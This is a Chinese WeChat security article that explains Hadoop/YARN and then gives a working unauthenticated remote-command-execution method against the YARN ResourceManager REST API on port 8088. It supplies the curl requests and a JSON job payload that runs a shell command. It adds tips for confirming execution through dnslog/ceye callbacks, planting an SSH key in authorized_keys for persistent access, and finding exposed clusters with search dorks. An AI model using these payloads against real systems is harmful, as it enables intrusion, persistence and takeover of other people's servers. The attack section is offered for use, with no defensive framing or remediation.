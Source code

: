 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/Em8ZmqHY7N8DNQ3uJl16ag)

**0X00    Hadoop 介绍和漏洞原理**

Hadoop 是一个由 Apache 的分布式系统基础架构，用户可开发分布式程序，充分利用集群的威力进行高速运算和存储，实现了一个分布式文件系统（Hadoop Distributed File System）。

其中 HDFS 组件有高容错性的特点，并且部署在低廉的（low-cost）硬件上即可提供高吞吐量（high throughput）来访问应用程序的数据。

![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvou89icXTVll91C6c4QibJbHcff1Naib56nHd7bK0jvgHLBQj4JfFm9kVdADKRQFSVP1rKPJeCBtKIHEJQ/640?wx_fmt=jpeg)

Apache Yarn（Yet Another Resource Negotiator 的缩写）是 hadoop 集群资源管理器系统，Yarn 从 hadoop 2 引入，最初是为了改善 MapReduce 的实现，但是它具有通用性，同样执行其他分布式计算模式。

ApplicationMaster 负责与 scheduler 协商合适的 container，跟踪应用程序的状态，以及监控它们的进度，ApplicationMaster 是协调集群中应用程序执行的进程。每个应用程序都有自己的 ApplicationMaster，负责与 ResourceManager 协商资源（container）和 NodeManager 协同工作来执行和监控任务 。

当一个 ApplicationMaster 启动后，会周期性的向 resourcemanager 发送心跳报告来确认其健康和所需的资源情况，在建好的需求模型中，ApplicationMaster 在发往 resourcemanager 中的心跳信息中封装偏好和限制，在随后的心跳中，ApplicationMaster 会对收到集群中特定节点上绑定了一定的资源的 container 的租约，根据 Resourcemanager 发来的 container，ApplicationMaster 可以更新它的执行计划以适应资源不足或者过剩，container 可以动态的分配和释放资源。

**与 job 相关的命令：**

```
1.查看 Job 信息：hadoop job -list
2.杀掉 Job：hadoop  job –kill  job\_id
3.更多细节：hadoop job -history all output-dir
4.杀死任务。被杀死的任务不会不利于失败尝试：hadoop jab -kill-task <task-id>
5.使任务失败。被失败的任务会对失败尝试不利：hadoop job  -fail-task <task-id>
```

**YARN 命令：**

YARN 命令是调用 bin/yarn 脚本文件，如果运行 yarn 脚本没有带任何参数，则会打印 yarn 所有命令的描述。

```
使用: yarn \[--config confdir\] COMMAND \[--loglevel loglevel\] \[GENERIC\_OPTIONS\] \[COMMAND\_OPTIONS\]
```

```
application使用: yarn application \[options\]
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou89icXTVll91C6c4QibJbHcff7xpY53ibraQYJDPJALz9hg0aawWToNne53AJ9KqaD1Wbic4geVAwIvZQ/640?wx_fmt=png)  

**运行 jar 文件**

用户可以将写好的 YARN 代码打包成 jar 文件，用这个命令去运行它：

```
yarn jar <jar> \[mainClass\] args...
```

**0X01    RCE 实现**

使用 ROOT 权限启动的 Hadoop 服务可根据在服务器 8088 端口接收用户提交的 POST 数据，根据其中参数执行相关 job，具体实现如下：

8088 端口的 Applications manager：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou89icXTVll91C6c4QibJbHcff8ZCKYDu1Pt68mAgILW0Rzia3UAE20Qqkd6rx7C8D6N6YSxC3zSZsX8Q/640?wx_fmt=png)

1\. 申请新的 application，直接通过 curl 进行 POST 请求：

```
curl -v -X POST 'http://ip:8088/ws/v1/cluster/apps/new-application'
```

返回内容类似于：

```
{"application-id":"application\_1527144634877\_20465","maximum-resource-capability":{"memory":16384,"vCores":8}}
```

2\. 构造并提交任务

构造 json 文件 1.json，内容如下，其中 application-id 对应上面得到的 id，命令内容为尝试在 / var/tmp 目录下创建 test\_1 文件，内容也为 111：

```
{
"am-container-spec":{
"commands":{
"command":"echo '111' >> /var/tmp/test\_1"
}
},
"application-id":"application\_1527144634877\_20465",
"application-name":"test",
"application-type":"YARN"
}
```

然后直接使用 curl 发送数据：

```
curl -s -i -X POST -H 'Accept: application/json' -H 'Content-Type: application/json' http://ip:8088/ws/v1/cluster/apps --data-binary @1.json
```

即可完成攻击，命令被执行，在相应目录下可以看到生成了对应文件，在 8088 端口 Web 界面可看到相关信息：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou89icXTVll91C6c4QibJbHcffXJEIBTpfTFgQQibq8nGZWVjv0Z151hgTM9zq0icJ0ibkTa8NRujArm99g/640?wx_fmt=png)

技巧：可配合 ceye、dnslog 测试命令执行结果。

**0X02    注意事项**  

**技巧：**

1\. 可配合 ceye 以及

dnslog 测试命令执行结果，或在 / home/user/.ssh/authorized\_keys 中写入公钥。

2\. 搜索开放服务：title="All Applications"

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou89icXTVll91C6c4QibJbHcffdV4F6AfSCGHlic8vQcFXfSgC2NgNBCPcbbUq1072aYCrwYLtRoK4ruA/640?wx_fmt=png)

或者 port=50070

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou89icXTVll91C6c4QibJbHcffajj3KZCPNtiaSgTfwIEzNMck2m4W6lTJ6HJaoicRAk1pkI1cugFAhRibA/640?wx_fmt=png)

**但此方式有三点限制：**

1\. 是服务需管理员权限启动，执行命令也是管理员权限执行，普通用户五相关命令权限只会有失败记录，命令最终执行失败，留下难以删除的攻击记录。

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou89icXTVll91C6c4QibJbHcffyibXfOwcKQibqMZqUiab8fHvbdzwwiaMibU1VAJvaibVZYbkdJlAHQ6J1Y0Q/640?wx_fmt=png)

2\. 是 Hadoop 的 8088 管理端口若使用了权限认证，会提示

```
AuthorizationException："message":"Unable to obtain user name, user not authenticated
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou89icXTVll91C6c4QibJbHcffMkibEh16cXmzOwHgtPxSJu4tg3lTH7DlVkRBogNe8ozN9FAOD22gJeA/640?wx_fmt=png)  

3\. 是 master+slave 节点数大于等于 2，job 任务会根据 hadoop 分布式机制提交到任一台节点处理，目前笔者还未找到指定 namenode 的方法。

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)

[![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou80h6Jor7Py4sKIwfiaowozsMP0Yjn9RcoJAmPMKa5hQVczeXoDxIic2QaZYKKrLDlJFT5v6EpREmjg/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247492102&idx=1&sn=aa09a4f38ae21b73a1d3a938d97aae20&chksm=ec1cb739db6b3e2f7d7edc43d338e9f2dc4563edc768a34fb4214618f5107ecfc89f9d7b802c&scene=21#wechat_redirect)

**点赞 在看 转发**

原创投稿作者：伞

![](https://mmbiz.qpic.cn/mmbiz_gif/Uq8QfeuvouibQiaEkicNSzLStibHWxDSDpKeBqxDe6QMdr7M5ld84NFX0Q5HoNEedaMZeibI6cKE55jiaLMf9APuY0pA/640?wx_fmt=gif)